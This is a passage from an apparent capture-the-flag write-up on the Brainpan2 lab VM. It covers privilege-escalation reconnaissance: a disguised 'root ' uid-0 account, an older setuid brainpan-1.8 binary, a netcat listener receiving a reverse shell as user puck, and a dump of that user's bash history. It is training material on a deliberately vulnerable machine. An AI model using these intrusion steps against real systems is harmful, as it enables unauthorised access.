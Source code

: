 We appear to be euid root but notice in /etc/passwd there seems to be another account named "root " with a space in it that is actually uid 0. Back to the privilege escalation phase then what's in those other folders we saw in /opt/old earlier? 
```bash
$ ls -lah /opt/old/brainpan-1.8
ls -lah /opt/old/brainpan-1.8
total 36K
drwxrwxr-x 2 root  staff 4.0K Jun  7 01:05 .
drwx------ 3 root  root  4.0K Nov  4  2013 ..
-rwsr-xr-x 1 puck  puck   18K Nov  4  2013 brainpan-1.8.exe
-rw-r--r-- 1 puck  puck  1.2K Nov  5  2013 brainpan.7
-rw-rw-rw- 1 puck  staff   27 Nov  5  2013 brainpan.cfg
$ cat brainpan.cfg
cat brainpan.cfg
port=9333
ipaddr=127.0.0.1
$ ./brainpan-1.8.exe
./brainpan-1.8.exe
port = 9333
ipaddr = 127.0.0.1
+ bind done
+ waiting for connections...
```
So this seems to be version 1.8 of the Brainpan2 binary, before we had been dealing with 2.0. It fires up on locahost port 9333 so we get a fresh shell first to actually connect to it.
```bash
anansi@brainpan2:/opt/brainpan$ nc 127.0.0.1 9333  
nc 127.0.0.1 9333
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|

[______________________ WELCOME TO BRAINPAN 1.8________________________]
                             LOGIN AS GUEST                             
```
We can run some of the same commands, look at the documentation and all that, let's get a reverse shell from it again with python.
```
root@sushi:~# nc -nlvp 443                         
listening on [any] 443 ...                         
connect to [192.168.147.161] from (UNKNOWN) [192.168.147.175] 41926                                   
$ id                                               
uid=1000(anansi) gid=1000(anansi) euid=1001(puck) groups=1001(puck),50(staff),1000(anansi)
```
So this time the 1.8 binary sends a shell back as puck instead of anansi, first we check out his /home folders. We notice two different sets of ssh keys are in there and along with a backup of his .bash_history file:
```bash
$ cat .bash_history
cd /usr/local/bin
ls -l
./msg_root "comment on the latest version please"
cd /opt/brainpan/
ps aux
vi brainpan-1.8.c
cd ../archive
netstat -antp
netstat -antp | grep 9888
cd ..
ls
```